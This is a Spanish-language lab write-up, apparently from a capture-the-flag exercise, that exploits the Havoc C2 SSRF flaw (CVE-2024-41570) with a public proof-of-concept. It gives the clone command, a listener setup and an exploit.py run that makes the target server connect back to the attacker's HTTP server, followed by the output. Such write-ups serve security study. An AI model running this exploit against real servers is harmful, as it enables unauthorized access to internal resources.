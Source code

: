 ### Exploitation SSRF HavocC2 - (CVE-2024-41570)

Durante la fase de investigación, identificamos una vulnerabilidad en HavocC2 relacionada con un **SSRF (Server Side Request Forgery)**, documentada en el `CVE-2024-41570`. Para explorarla, utilizamos el siguiente repositorio público que contiene una prueba de concepto (PoC):

{% embed url="https://github.com/chebuya/Havoc-C2-SSRF-poc" %}

Según el blog del creador de la PoC, la vulnerabilidad permite explotar una solicitud maliciosa para interactuar con recursos internos del servidor, lo que potencialmente puede revelar información sensible, como direcciones IP internas o servicios en ejecución.

{% embed url="https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/" %}

En este caso, nos clonamos el proyecto en nuestro equipo local.

```bash
❯ git clone https://github.com/chebuya/Havoc-C2-SSRF-poc; cd Havoc-C2-SSRF-poc
Clonando en 'Havoc-C2-SSRF-poc'...
remote: Enumerating objects: 39, done.
remote: Counting objects: 100% (39/39), done.
remote: Compressing objects: 100% (35/35), done.
remote: Total 39 (delta 10), reused 0 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (39/39), 14.83 KiB | 460.00 KiB/s, listo.
Resolviendo deltas: 100% (10/10), listo.
```

Levantamos un servidor HTTP local para recibir las solicitudes provenientes de la explotación del SSRF.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Utilizamos el script `exploit.py` de la PoC para interactuar con el equipo objetivo y tratar de descubrir información interna.

```bash
❯ python3 exploit.py -t https://10.10.11.49 -i 10.10.16.5 -p 80
[***] Trying to register agent...
[***] Success!
[***] Trying to open socket on the teamserver...
[***] Success!
[***] Trying to write to the socket
[***] Success!
[***] Trying to poll teamserver for socket output...
[***] Read socket output successfully!
HTTP/1.0 404 File not found
Server: SimpleHTTP/0.6 Python/3.12.8
Date: Tue, 21 Jan 2025 08:43:01 GMT
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 335

<!DOCTYPE HTML>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 404</p>
        <p>Message: File not found.</p>
        <p>Error code explanation: 404 - Nothing matches the given URI.</p>
    </body>
</html>
```